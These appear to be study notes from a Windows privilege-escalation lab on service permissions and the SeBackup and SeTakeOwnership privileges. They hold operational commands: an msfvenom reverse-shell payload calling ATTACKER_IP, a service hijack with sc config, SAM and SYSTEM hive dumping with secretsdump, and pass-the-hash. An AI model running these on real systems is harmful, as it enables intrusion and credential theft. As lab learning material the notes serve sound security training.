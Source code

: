 To check for a service DACL from the command line, you can use `Accesschk` from the `Sysinternals suite`.

1. `accesschk64.exe -qlc thmservice`
2. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe`
3. `icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`
4. `sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem`
5. `sc stop THMService`
6. `sc start THMService`
7. `nc -lvp 4447`

## Abusing dangerous privileges
Each user has a set of assigned privileges that can be checked with the following command: `whoami /priv`.

A complete list of available privileges on Windows systems is available [here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants).
You can find a comprehensive list of exploitable privileges on the [Priv2Admin](https://github.com/gtworek/Priv2Admin/tree/master) Github project.

### SeBackup / SeRestore
Allow users to read and write to any file in the system, ignoring any `DACL` in place.
The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.

Having this power, an attacker can trivially escalate privileges on the system by using many techniques.
The one we will look at consists of copying the `SAM` and `SYSTEM registry hives` to extract the local Administrator's password hash.

1. We will need to open a command prompt using the "Open as administrator" option to use these privileges.
2. `whoami /priv`
3. Backup the `SAM` and `SYSTEM` hashes: `reg save hklm\system C:\Users\THMBackup\system.hive` & `reg save hklm\sam C:\Users\THMBackup\sam.hive`
4. This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method.
5. Use `impacket` to retrieve the users' password hashes: `python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL`.
6. Use the Administrator's hash to perform a `Pass-the-Hash attack` and gain access to the target machine with SYSTEM privileges.

### SeTakeOwnership
Allows a user to take `ownership of any object on the system`, including `files` and `registry keys`.

E.g: `utilman.exe`, a built-in Windows application used to provide Ease of Access options during the lock screen. Abuse it to escalate privileges this time.

Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like.
As we can take ownership of any file, replacing it is trivial.
